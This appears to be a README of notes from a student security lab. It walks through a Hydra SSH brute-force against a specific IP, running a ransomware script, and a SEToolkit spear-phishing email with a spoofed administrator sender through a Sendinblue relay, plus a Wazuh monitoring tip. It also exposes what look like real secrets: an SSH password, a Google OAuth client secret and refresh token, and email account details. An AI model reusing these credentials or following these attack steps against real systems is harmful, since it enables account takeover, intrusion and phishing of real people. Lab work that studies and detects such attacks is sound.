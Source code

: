 # Email phishing
To execute email phishing workflow follow the instruction bellow :
1- Lunch the server
2- POST request to url_server/email/imap, to request emails from gmail account. After the request the data will be stored in Redis database with
    "username":"your email",
    "password":"your password",
    "imap_server":"imap.gmail.com",
    "foldername":"inbox", where the emails are stored
    "amount":1, amount of emails you want to read
    "unread":"true", read only unread emails
    "fields":"",
    "include_raw_body":true,
    "include_attachment_data":true,
    "upload_email":true,
    "upload_attachments":true,
    "ssl_verify":true,
    "mark_as_read":false

3- 


## ssh login credentiels : usr:massihadjloum pwd:zino

# SSH brute force
1- In Google cloud lunch kali-linux virtual machine
2- Switch to root user "sudo su -"
3- Command to start attack "hydra -L users.txt -P john.txt [adresse IP] ssh"
3- Command to start attack "hydra -l massihadjloum -P john.txt 34.122.219.253 ssh"

# RansomWare attack

1- On Ubunut VM, check the content of "ls /home/ransomware/test/", if it's not empty, lunch "sudo rm -r /home/ransomware/test/*"
2- to prepare the attack lunch the script "sudo python3 /home/ransomware/ransomware_attaque.py prepare"
2- now, we start ransomware attack by lunching "sudo python3 /home/ransomware/ransomware_attaque.py attack"

# tips

1- go to the machine where wazuh agent is installed
2- to add directory which wazuh agent can monitor,  "sudo nano /var/ossec/etc/ossec.conf"
3- go to "syscheck and add "<directories check_all="yes" whodata="yes">path of directory you want to monitor</directories>""

# Steps to generate acces token

1- execute "py oauth2.py --generate_oauth2_token --client_id=750511791638-sr3n0i3q291ifgfhclt1l99pcr7aifmu.apps.googleusercontent.com --client_secret=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"
2- get code and enter it in the cmd, and you will get access token

3- get access_token using refresh_token "py oauth2.py --refresh_token=1//03nTOlF4aA-MaCgYIARAAGAMSNwF-L9IrUywc39EOSbXD1cEEj2FTnXgegz2G8_jjoihZoqaer4ELSIGB2sqrdai_4ABGZACCGrM --client_id=750511791638-sr3n0i3q291ifgfhclt1l99pcr7aifmu.apps.googleusercontent.com --client_secret=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"

4- after you get access_token put it in email_app/email_connection/ self.access_token varibale

refresh token:1//03nTOlF4aA-MaCgYIARAAGAMSNwF-L9IrUywc39EOSbXD1cEEj2FTnXgegz2G8_jjoihZoqaer4ELSIGB2sqrdai_4ABGZACCGrM


--client_id=750511791638-sr3n0i3q291ifgfhclt1l99pcr7aifmu.apps.googleusercontent.com --client_secret=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



# Phishing email attack
https://app.sendinblue.com/marketing-campaign/list

SMTP serveur : smtp-relay.sendinblue.com 
Port : 587
Identifier : nacerokhed@gmail.com
password : Login to https://app.sendinblue.com/marketing-campaign/list using nacerokhed@gmail.com 
and check link https://account.sendinblue.com/advanced/api to get password

1 - Lunch kali-linux VM and switch to root mode : "sudo su -"
2 - setoolkit
3 - choose social engineering attack : choose "1"
4 - Spear-Phishing Attack Vectors : choose 1
5 - E-Mail Attack Single Email Address
6 - send email to :hz_khedri@esi.dz
7 - Use your own server or open relay
8 - put the email you want : for example admin@org.com
9 - Choose the name that will apear to victim : ADMIN
10 - usernma of open-relay : nacerokhed@gmail.com
11- password Login to https://app.sendinblue.com/marketing-campaign/list using nacerokhed@gmail.com 
and check link https://account.sendinblue.com/advanced/api to get password
12 - smtp-relay.sendinblue.com 
13 - 587
14 -  Flag this message/s as high priority? [yes|no]:yes